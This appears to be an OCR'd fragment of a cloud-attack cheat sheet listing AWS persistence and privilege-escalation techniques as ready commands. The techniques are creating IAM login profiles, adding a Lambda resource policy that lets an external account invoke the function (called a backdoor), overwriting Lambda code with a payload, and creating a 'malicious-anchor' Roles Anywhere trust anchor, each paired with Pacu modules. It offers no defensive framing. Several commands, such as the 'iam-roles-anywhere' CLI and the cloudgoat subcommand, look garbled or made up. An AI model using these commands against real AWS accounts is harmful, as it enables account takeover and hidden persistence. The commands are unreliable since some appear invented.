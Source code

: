 
```
aws iam create-login-profile --user-name <user-name> --password <password> && aws iam update-login-profile --user-name <user-name> --password-reset-required
```


```
python3 pacu.py --use single_module --module privilege_escalation/iam__create_login_profile
```


```
terraform import aws_iam_user_login_profile.login_profile <user-name>
```


### Backdoor Lambda Function Through Resource-Based Policy


```
aws lambda add-permission --function-name <function-name> --action lambda:InvokeFunction --principal <external-aws-account-id> --statement-id <unique-statement-id>
```


```
python3 pacu.py --use single_module --module privilege_escalation/lambda__backdoor_function_resource_policy
```


```
terraform import aws_lambda_permission.permission <function-name>:<unique-statement-id>
```



### Overwrite Lambda Function Code


```
aws lambda update-function-code --function-name <function-name> --zip-file fileb://payload.zip
```


```
python3 pacu.py --use single_module --module privilege_escalation/lambda__overwrite_function_code
```


```
serverless deploy --force
```


### Create an IAM Roles Anywhere trust anchor


```
iam-roles-anywhere create-anchor --name malicious-anchor --public-key <public-key-file> --private-key <private-key-file>
```


```
cd ~/cloudgoat
./cloudgoat.py create-anywhere-trust-anchor --anchor-name malicious-anchor --public-key <public-key-file> --private-key <private-key-file>
```
